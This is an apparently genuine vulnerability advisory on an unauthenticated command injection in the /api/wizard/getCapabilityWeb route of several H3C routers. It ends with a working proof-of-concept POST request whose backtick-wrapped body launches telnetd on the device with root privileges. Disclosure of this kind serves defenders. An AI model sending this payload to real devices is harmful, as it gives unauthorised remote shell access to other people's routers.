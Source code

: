 # Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Zhao Jiang Ting(sta8r9@163.com)

**Affected products:** H3C Magic NX30 Pro\H3C NX400\H3C NX15\H3C R3010\H3C BE18000

**Affected firmware version:** <=V100R014 

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

# Overview

In the `H3C Magic` series products, `H3C Magic NX30 Pro` and `H3C NX400`and H3C NX15  and H3C R3010 and H3C BE18000 allow an attacker to send a specially crafted `POST` request to the `/api/wizard/getCapabilityWeb` route without authorization, enabling remote code execution with the highest privileges.



# Vulnerability details

When the route is `/wizard/getCapabilityWeb`, it can enter its handler function.

![image-20250317234507878](https://github-tupian.oss-cn-beijing.aliyuncs.com/20250317234507919.png)

`v14` is user-controllable. Although the `FCGI_CheckStringIfContainsSemicolon` function is used to filter dangerous characters, it fails to filter backticks, leading to command injection.

![image-20250314113946900](https://github-tupian.oss-cn-beijing.aliyuncs.com/20250317232620671.png)



# POC

```
POST /api/wizard/getCapabilityWeb HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```

